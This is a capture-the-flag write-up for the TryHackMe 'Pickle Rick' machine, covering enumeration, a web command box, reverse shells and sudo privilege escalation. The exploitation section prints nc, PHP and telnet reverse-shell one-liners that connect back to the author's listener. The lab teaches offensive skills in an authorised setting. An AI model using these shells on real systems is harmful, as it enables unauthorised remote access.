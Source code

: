 # TryHackMe: Pickle Rick CTF

Notes/writeup for the THM CTF machine titled "Pickle Rick."

This is a fun machine that focuses on enumeration and investigation, reverse shells, and the linux file system.

* * *

## Enumeration

After starting the machine, I immediately ran a few different processes to gain a basic understanding of the machine and services.

The initial results were:

```
dirb:
	/assets/

nmap:
	port 22: OpenSSH
	port 80: Apache on Ubuntu
		System:
		Apache/2.4.18 (Ubuntu) Server at 10.10.139.155 		Port 80 
```

Main/Front Webpage:
![Front page](/cd_image_dir/front_page.png)


Source Code:
```
Note to self, remember username!

Username: R1ckRul3s
```

```
- username is embedded in the html code
- The text references "BURP" twice; At this point, I'm not sure if this is a reference to the show, or a hint that Burp Suite will be useful. 
```

With that said, I decided to open Burp and saw that the images being used were contained within a directory called /assets which is accessible.

	GET /assets/rickandmorty.jpeg
	/assets/ 

/assets contains photos and js files - I thought that perhaps the images contain something interesting. I ran stegseek while the nmap and dirb processes were finishing up, however nothing unusual was found in the photos 

    robots.txt: Wubbalubbadubdub 

I appended the string from robots.txt at the end of the URL as well as a subdirectory of /assets/ but nothing found. This will likely be useful at some point, however.


As seen above, the initial enumeration of the website did not return anything useful. I executed further enumeration with gobuster, and widened the scope to include various file extensions.

```
 gobuster -u http://10.10.139.155/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html -t 15
 
 Gobuster:
 /login.php 
```
This revealed a login page, which is likely the key to gaining a foothold on the system. 

With that discovery, a fair amount of progress has been made:

```
Known:
	- Username
	- Login page/a web form
	- a string, potentially a password 
```

With these discoveries, I attempted login for the user R1ckRul3s with the string found in robots.txt. Authentication was succesful and I was greeted with a command execution box.

* * *

## Foothold

The first commands I executed within the web terminal were:

```
id

ls -lah
```

As usual, we have a webshell with the www-data user, uid 33:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

Immediately, the files output from ls, named below, stand out:

```
Sup3rS3cretPickl3Ingred.txt
clue.txt 
```

I attempted to run the cat command, however permission was denied, so we need to either find a way around this or find a privesc exploit.
Before moving on, however, I decided to try the strings command:

```bash
strings clue.txt
```

Fortunately, this does work. The file reads:

```
"Look around the file system for the other ingredient." 
```

```bash
strings Sup3rS3cretPickl3Ingred.txt
```

I then tried the strings command for the "Sup3rS3cretPickl3Ingred.txt" file and surely enough, it worked. We now have our first flag/ingredient.

At this point, everything within the current directory is exhausted, so it is clear that in order to find more clues/flags, we will have to move onto other areas, as the clue suggests. I attempted to cd into different common directories and ran pwd, which as expected, showed we are within the:

```
/var/www/html 
```

directory, however I was unable to change directories.

* * *

## Exploitation

In order to make further progress, a more useful reverse shell must be established. Two common ways of accomplishing this would be to either start a local python http server and wget the reverse shell, or to simply use php/bash/netcat one-liner and directly execute it via the limited command input we already have.

I decided to go with the direct execution method and tried the following:

```
cmd:"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.5.104 4443 >/tmp/f"
```

The same error was seen, "Command disabled."

I then decided to try using php commands, which I generated via revshells.com.

```
nc -lvnp <port>
```

```
php -r '$sock=fsockopen("IP",PORT);exec("/bin/bash <&3 >&3 2>&3");'
```

![failed connection](/tmp/.mount_JoplincQ5eHE/resources/app.asar/cs_img_dir/revshell_fail.png)

The command was clearly executed, as a connection was made with netcat, however it immediately closed and could not be accesed. While this specific command did not work, there is at least confirmation that the commands are running and that connections can be made.

I continued trying various different methods, including php cmd, php exec, nc, bash, etc., none of which worked, however I was able to succesfully establish a reverse shell using telnet, via the following command:

```
TF=$(mktemp -u);mkfifo $TF && telnet 10.13.5.104 4443 0<$TF | /bin/bash 1>$TF
```

First, I tried some broad searches to see if anything immediately stuck out:

```
locate *.txt
locate *.sh
```

I did not see anything particularly interesting, so I navigated to /home and found a directory called "rick."

Inside of rick was a file called "second ingredients" and executing the cat command succesfully returned the second ingredient.

```
cd /home
cd /rick
ls --> second ingredients
cat * --> flag
```

Now, only one flag/ingredient is left. Given past experience with similar CTF machines, I thought it likely that this last flag would require elevated permissions to access. After attempting to cd into /root, it is clear that the current privilege level does not allow for movement within the root directory despite the machine not displaying any errors via the terminal.

I ran the following commands as a preliminary search for any potential methods of access or vulnerabilties:

```
find . -perm /4000

sudo -l
```

- While I could have easily set up a python http server and simply run linenum, I wanted to try to avoid doing that and instead improve my ability to manually search for any exploits, misconfigurations, and general methods of accessing privileged files or processes.

Interestingly, sudo -l returned "ALL." This came as a surprise, so instead of continuing to search for privesc exploits, I instead tried:

```
sudo ls /root/
```

Surely enough, this did return the contents of /root, including what appears to be the third and final flag.

Next, I tried:

```
sudo cat /root/3rd.txt 
sudo strings /root/3rd.txt
```

However, these did not return anything. I tried one more command:

```
sudo vi /root/3rd.txt
```

and, the third flag was returned!